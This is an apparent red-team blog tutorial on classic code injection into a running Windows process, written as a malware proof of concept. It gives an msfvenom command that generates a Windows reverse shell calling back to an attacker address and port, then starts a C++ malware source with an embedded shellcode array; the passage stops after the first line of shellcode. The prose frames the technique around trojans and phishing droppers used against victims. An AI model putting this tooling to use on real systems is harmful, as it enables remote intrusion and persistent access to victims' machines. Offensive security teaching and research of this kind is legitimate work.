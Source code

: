 ```yaml
---
title:  "Classic code injection into the process. Simple C++ malware."
date:   2021-09-18 10:00:00 +0600
header:
  teaser: "/assets/images/6/2021-09-18_20-00.png"
categories: 
  - tutorial
tags:
  - red team
  - windows
  - pentest
  - malware
---
```



﷽

Hello, cybersecurity enthusiasts and white hackers!

![code injection](/assets/images/6/2021-09-18_20-00.png){:class="img-responsive"}

This post is a Proof of Concept and is for educational purposes only.   
Author takes no responsibility of any damage you cause.

Let's talk about code injection. What is code injection? And why we do that?

Code injection technique is a simply method when one process, in our case it's our malware, inject code into another running process.   

For example, you have your malware, it's a dropper from phishing attack or a trojan you managed to deliver to your victim or it can be anything running your code. And for some reason, you might want to run your payload in a different process.
What do I mean by that? In this post we will not consider the creation of trojan, but for example, let's say that your payload got executed inside `word.exe` which have a limited time of living. Let's say your successfully got a remote shell, but you know that, your victim close `word.exe`, so in this situation you have to migrate to another process if you want to preserve your session.

In this post we will discuss about a classic technique which are payload injection using debugging API.

Firstly, let's go to prepare our payload. For simplicity, we use `msfvenom` reverse shell payload from Kali linux.

On attacker's machine run:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.1.6 LPORT=4444 -f c
```

where `10.9.1.6` is our attacker's machine IP address, and `4444` is port which we run listener later.

![msfvenom](/assets/images/6/2021-09-18_20-28.png){:class="img-responsive"}

Let's start with simple C++ code of our malware, which is used by me in [AV evasion part 1](/tutorial/2021/09/04/simple-malware-av-evasion.html) post:
```cpp
/*
cpp implementation malware example with msfvenom payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload: reverse shell (msfvenom)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
```